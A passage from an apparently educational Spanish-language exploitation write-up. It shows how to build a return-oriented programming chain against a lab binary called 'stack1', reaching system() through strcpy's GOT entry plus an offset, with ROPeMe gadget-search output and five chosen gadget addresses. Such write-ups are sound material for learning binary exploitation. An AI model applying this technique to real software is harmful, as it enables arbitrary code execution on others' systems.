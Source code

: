 2) Luego hay que poner la direccion de strcpy en un registro, para luego sumarle el offset así tenemos la llamada a system en un registro:

- Instrucciones que nos guarde el valor del strcpy del GOT en un registro de la pila (pop $reg1)
- Instrucciones para sumar el offset al valor anterior (add reg1 [reg2])	

3) Por último hay que hacer la llamada a la función contenida en el registro (system):	
- Instrucciones de llamada: call reg1	


Ahora es cuando empieza la búsqueda de "gadgets" (Eh la qui va là). Lógicamente lo que encontremos no va a coincidir exactamente con lo que necesitemos, pero podremos adaptarlo para que, con unas operaciones, haga lo que nosostros queremos. Para buscar estas instrucciones por las que vamos a ir saltando hasta conseguir la ejecución del exploit contamos con la ayuda de ROPeMe (https://github.com/packz/ropeme):

```
ROPeMe> generate stack1 5
Generating gadgets for stack1 with backward depth=5
It may take few minutes depends on the depth and file size...
Processing code block 1/1
Generated 96 gadgets
Dumping asm gadgets to file: stack1.ggt ...
OK
ROPeMe> search pop ? pop %
Searching for ROP gadget:  pop ? pop % with constraints: []
0x8048334L: pop eax ; pop ebx ; leave ;;
0x8048432L: pop ebx ; pop ebp ;;
0x8048577L: pop ebx ; pop ebp ;;
0x8048545L: pop ebx ; pop esi ; pop edi ; pop ebp ;;
0x8048594L: pop ecx ; pop ebx ; leave ;;
0x8048547L: pop edi ; pop ebp ; ret ; mov ebx [esp] ;;
0x8048547L: pop edi ; pop ebp ;;
0x8048546L: pop esi ; pop edi ; pop ebp ; ret ; mov ebx [esp] ;;
0x8048546L: pop esi ; pop edi ; pop ebp ;;
ROPeMe>  search xchg %
Searching for ROP gadget:  xchg % with constraints: []
0x804842bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
0x804845cL: xchg esi eax ; add al 0x8 ; call eax ; leave ;;
ROPeMe> search add eax %
Searching for ROP gadget:  add eax % with constraints: []
0x8048429L: add eax 0x8049728 ; add [ebx+0x5d5b04c4] eax ;;
0x804856eL: add eax [ebx-0xb8a0008] ; add esp 0x4 ; pop ebx ; pop ebp ;;
ROPeMe> search call eax %
Searching for ROP gadget:  call eax % with constraints: []
0x804845fL: call eax ; leave ;;
```
Vamos a usar los siguiente gadgets:

```
(1)0x8048545L: pop ebx ; pop esi ; pop edi ; pop ebp ;;
(2)0x804842bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
(3)0x8048432L: pop ebx ; pop ebp ;;
(4)0x804856eL: add eax [ebx-0xb8a0008] ; add esp 0x4 ; pop ebx ; pop ebp ;;
(5)0x804845fL: call eax ; leave ;;
```
